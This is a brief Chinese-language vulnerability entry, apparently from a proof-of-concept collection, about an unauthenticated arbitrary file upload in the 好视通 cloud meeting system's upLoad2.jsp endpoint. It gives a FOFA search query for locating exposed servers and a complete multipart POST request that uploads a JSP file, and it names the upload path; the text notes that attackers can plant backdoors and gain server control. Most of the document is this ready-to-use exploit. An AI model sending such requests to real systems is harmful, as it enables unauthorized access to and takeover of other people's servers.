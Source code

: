 # 好视通云会议upLoad2.jsp接口处存在任意文件上传漏洞

好视通云会议/fm/systemConfig/upLoad2.jsp接口处存在任意文件上传漏洞，未经身份认证的攻击者可以通过此漏洞上传恶意后门文件，最终可获取服务器权限。

## fofa

```javascript
app:"好视通-云会议"
```

## poc

```javascript
POST /fm/systemConfig/upLoad2.jsp HTTP/1.1
Content-Type: multipart/form-data; boundary=1515df1sdfdsfddfs
Accept-Encoding: gzip
 
--1515df1sdfdsfddfs
Content-Disposition: form-data; name="file"; filename="dudesuite.jsp"
Content-Type: application/octet-stream
 
<% out.print("dudesuite"); %>
--1515df1sdfdsfddfs--
```

文件路径`/fm/upload/dudesuite.jsp`

